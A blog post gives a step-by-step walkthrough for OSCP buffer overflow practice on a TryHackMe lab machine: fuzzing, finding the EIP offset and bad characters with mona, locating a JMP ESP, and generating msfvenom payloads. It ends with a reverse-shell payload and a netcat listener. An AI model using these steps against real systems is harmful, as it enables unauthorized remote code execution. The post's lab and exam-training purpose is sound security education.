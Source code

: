 ```yaml
---
title: "Easy OSCP Bufferoverflow Preparation"
description: "Easy, simple yet effective and working OSCP Buffer Overflow preparation"
date: 2020-11-21
categories: [PoC]
tags: [windows, oscp, exploit, exploit development, buffer overflow]
pin: true
math: true
mermaid: true
image:
  path: "/assets/img/oscp_bufferoverflow/feature.png"
  alt: "OSCP Buffer Overflow Preparation"
---
```


For preparing OSCP Buffer Overflow, you just need a simple script that can fuzz and send buffer. That's it. You don't need to know a lot about python scripting nor complicated stuff. This is the most effective way and time efficient way. If you practice enough, you can beat buffer overflow machine in just 30 minutes. So you can have lots of time for the other 4 machines. If you still need help, feel free to reach out to me on twitter.

Free TryHackMe Room: [TryHackMe/bufferoverflow](https://tryhackme.com/room/bufferoverflowprep)

Thanks to Tib3rius for this awesome tryhackme room. 

Here is the link for all the scripts: [hum4nG0D/OSCP_Bufferoverflow_Prep](https://github.com/hum4nG0D/OSCP_Bufferovrflw_Prep)

I will take overflow1 from THM bufferoverflow room as an example. So fire up the machine and then connect. You will need to do `Immunity > Debug > restart > play` for each step.

```
> xfreerdp /u:admin /p:password /cert:ignore /v:192.168.10.10
  
> git clone https://github.com/hum4nG0D/OSCP_Bufferovrflw_Prep.git
```

<br>

### 01 Fuzzing

```c++
> ./01-fuzz.py
```

Press `Ctrl + C` after the application crushed. Note down the byte number. (Example: Crushed at 2000)

<br>

### 02 Finding Offset

```c++
> msf-pattern_create -l 2000

> ./02-offset.py
```

At this point, I'm assuming you have Mona setup. 

```c++
> !mona findmsp -distance 2000
```

Find EIP normal pattern. (Example: EIP contains normal pattern : 0x42987857 (offset 1876))

<br>

### 03 Controlling EIP

```c++
> ./03-eip.py
```

You should see `424242` for EIP.

<br>

### 04 Finding Bad Characters

Setting up mona working directory:

```c++
> !mona config -set workingfolder c:\mona\%p
```

![Mona Working Directory](/assets/img/oscp_bufferoverflow/workingdir.png)

<br>

Generating byte array:

```c++
> !mona bytearray -b "\x00"
```

![Generating Bytearray - Mona](/assets/img/oscp_bufferoverflow/bytearray.png)

<br>

Running the script:

```c++
> ./04-badchar.py

> !mona compare -f C:\mona\oscp\bytearray.bin -a 0321FF88
```

Generating byte array with bad characters removed. Update the script and run again until you see 'Unmodified' status in mona memory comparison results.

```c++
> !mona bytearray -b "\x00\x0d"

> ./04-badchar.py

> !mona compare -f C:\mona\oscp\bytearray.bin -a 03B2FF88
```

![Unmodified](/assets/img/oscp_bufferoverflow/unmodified.png)

<br>

### 05 Finding a Jump Point

Replace the bad characters with what you find:

```c++
> !mona jmp -r esp -cpb "\x00\x0d"
```

Set the break point by entering the pointer address and pressing `F2`.

![Break point](/assets/img/oscp_bufferoverflow/pointer.png)

<br>

Make sure to edit the script and add the pointer address in reverse order. Then run the script.

```c++
> ./05-pointer.py
```

If the pointer address stop at EIP. You are good to go.

<br>

### 06 Popping Calculator

Again, don't forget to replace with the bad characters that you find:

```c++
> msfvenom -p windows/exec CMD="C:\windows\system32\calc.exe" -b '\x00\x0d' -f c

> ./06-calc.py
```

After successfully popping the calculator app, next step is to get a shell.

```c++
> msfvenom -p windows/shell_reverse_tcp LHOST=192.168.10.11 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x0d"

> nc -lvnp 443

> ./07-exploit.py
```

And that's it. You should be able to get a shell now. 